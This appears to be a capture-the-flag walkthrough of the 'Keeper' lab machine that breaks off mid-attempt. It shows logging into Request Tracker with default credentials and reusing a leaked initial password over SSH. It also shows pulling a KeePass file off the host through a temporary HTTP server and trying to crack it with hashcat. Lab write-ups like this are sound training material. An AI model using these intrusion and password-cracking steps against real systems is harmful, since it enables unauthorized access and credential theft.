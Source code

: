 tickets.keeper.htb/rt/

> Add these to `/etc/hosts`:

    10.129.98.9  tickets.keeper.htb
    10.129.98.9  keeper.htb

"»|« RT 4.4.4+dfsg-2ubuntu1 (Debian) Copyright 1996-2019 Best Practical Solutions, LLC. "

Best Practical Request Tracker...what is it?

Doesn't matter, login is `root:password`

Apparently Lise Noorgard ( http://tickets.keeper.htb/rt/User/Summary.html?id=27 ) removed a KeePass attachment and downloaded it to her home dir.

I wonder what her password is.

Comment: `New user. Initial password set to Welcome2023!`

Maybe we can run:

    ssh lnorgaard@tickets.keeper.htb
    Welcome2023!

We have user flag!

Now to download that file in the user's home directory.

    scp lnorgaard@tickets.keeper.htb:RT30000.zip ./
    Welcome2023!

Broken pipe. Let's try something else.

    ssh lnorgaard@tickets.keeper.htb
    Welcome2023!
    python -m http.server
    <visit http://tickets.keeper.htb:8000/ >
    

Now we have a `.dmp` and a KeePass file.

We can try to crack the KeePass file with Hashcat.

    keepass2john passcodes.kdbx > passcodes.hash
    hashcat -h | grep KeePass
    hashcat -m 13400 -a 0 -w 1 passcodes.hash /usr/share/wordlists/rockyou.txt

    Exhausted keyspace! It's not in `rockyou.txt`.